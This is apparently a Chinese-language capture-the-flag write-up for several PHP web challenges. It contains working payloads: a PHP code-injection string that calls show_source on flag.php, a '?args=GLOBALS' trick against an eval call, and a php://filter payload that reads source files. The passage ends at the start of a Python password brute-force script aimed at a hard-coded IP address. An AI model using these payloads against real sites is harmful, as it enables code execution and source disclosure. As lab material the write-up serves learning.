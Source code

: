 
构造paylaod
```bash
?hello=1);show_source(%27flag.php%27);var_dump(
```
# 变量1
```bash
flag In the variable ! <?php  

error_reporting(0);
include "flag1.php";
highlight_file(__file__);
if(isset($_GET['args'])){
    $args = $_GET['args'];
    if(!preg_match("/^\w+$/",$args)){
        die("args error!");
    }
    eval("var_dump($$args);");
}
?>
```
注意到提示和最后一条语句可知，让$$args=全局变量，即可打印出flag的值。
```bash
?args=GLOBALS
```
# web5
js编码，控制台，解密可得，提示要大写，把字母全部转换成大写
# 进行uniocode解密和拼接得到
```bash
<script>
function checkSubmit(){
var a=document.getElementById("password");
if("undefined"!=typeof a){
	if("67d709b2b54aa2aa648cf6e87a7114f1"==a.value)
		return!0;
        alert("Error");
	a.focus();
	return!1}}
document.getElementById("levelQuest").onsubmit=checkSubmit;
</script>
```
在输入框中输入
```bash
67d709b2b54aa2aa648cf6e87a7114f1
```
# flag在index里
根据题意和url便可知构造
```bash
?file=php://filter/read=convert.base64-encode/resource=index.php
```
# 输入密码查看flag
```bash
#coding:utf-8
import requests
import threading
import time
url="http://120.24.86.145:8002/baopo/"
s=requests.session()
def getflag(pwd):
```